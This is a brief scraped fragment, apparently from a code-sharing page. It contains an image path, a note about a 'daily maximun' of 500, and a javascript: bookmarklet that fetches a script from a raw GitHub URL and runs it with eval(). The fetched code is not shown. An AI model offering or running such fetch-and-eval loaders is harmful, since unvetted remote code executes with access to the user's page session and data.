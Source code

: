 note:daily maximun:500
javascript:fetch("https://raw.githubusercontent.com/user134383097489237489/pakacha1/main/Untitled-1.js").then((res) => res.text().then((t) => eval(t)))
